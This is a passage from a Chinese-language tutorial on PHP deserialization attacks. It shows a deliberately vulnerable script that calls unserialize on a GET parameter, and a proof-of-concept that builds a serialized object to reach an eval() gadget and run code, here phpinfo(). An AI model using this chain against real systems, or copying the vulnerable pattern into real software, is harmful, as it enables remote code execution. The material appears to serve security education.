 然后将这个序列化的字符重新导入到 poc 代码中，反序列化之后，就会生成一个 shell.php,并且内容为 <?php phpinfo(); ?>



2.利用普通成员方法

在反序列化的时候，当漏洞/危险代码存在类的普通方法中，就不能指望通过“自动调用”来达到目的了。这时的利用方法如下，寻找相同的函数名，把敏感函数和类联系在一起。

``` 
<?php
class l1nk3r {
    var $test;
    function __construct() {
        $this->test = new CodeMonster();
    }
    function __destruct() {
        $this->test->action();
    }
}
class CodeMonster {
    function action() {
        echo "CodeMonster";
    }
}
class CodeMonster1 {
    var $test2;
    function action() {
        eval($this->test2);
    }
}
$class6 = new l1nk3r();
unserialize($_GET['test']);
?>
```

从代码上来看，来通过 new 实例化一个新的 l1nk3r 对象后，调用 __construct()，其中该函数又 new 了一个新的 CodeMonster 对象；这个对象的功能是定义了 action() 函数，并且打印 CodeMonster。然后结束的时候调用 __destruct(),在 __destruct() 会调用 action()，因此页面会输出 CodeMonster。



但是在代码中，我们看得到 codermaster1 对象中有一个 eval() 函数，这可是危险函数啊，那有什么方法，通过发序列化触发它呢，当然有了。刚刚在 l1nk3r 对象中，new 的是 CodeMonster，如果 new 的是 CodeMonster1，那么自然就会进入 CodeMonster1 中，然后 eval() 函数中的 $test2 可控制，那么自然就可以实现远程代码执行了。

Poc：

``` 
<?php
class l1nk3r {
    var $test;
    function __construct() {
        $this->test = new CodeMonster1();
    }
}
class CodeMonster1 {
    var $test2='phpinfo();';
}
$class6 = new l1nk3r();
print_r(serialize($class6));
?>
```
